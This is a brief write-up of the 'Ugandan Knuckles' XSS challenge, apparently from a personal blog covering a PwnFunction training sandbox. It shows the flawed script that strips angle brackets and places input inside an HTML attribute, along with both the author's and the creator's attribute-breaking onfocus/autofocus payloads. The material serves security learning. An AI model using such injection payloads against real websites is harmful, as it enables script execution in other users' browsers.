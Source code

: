 ```yaml
---
title: Ugandan Knuckles 
layout: post 
date: 2022-04-29 
permalink: /:categories/:title
categories: writeups xss-game
---
```


#### challenge

This is the script that violates the web

```
<!-- Challenge -->
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

#### my solution

In this challenge we see that the code removes the <> and that everything we enter is entered in an input so we will take advantage of that to enter a script that is activated when it focuses and with autofocus as soon as the page loads it will be runned

[Ugandan Knuckles](https://sandbox.pwnfunction.com/warmups/da-wey.html?wey=%22autofocus%20onfocus=alert(1)%20x=%22)

#### creator solution

The solution given by the creator of the game is as follows

`"onfocus=alert(1337) autofocus="`
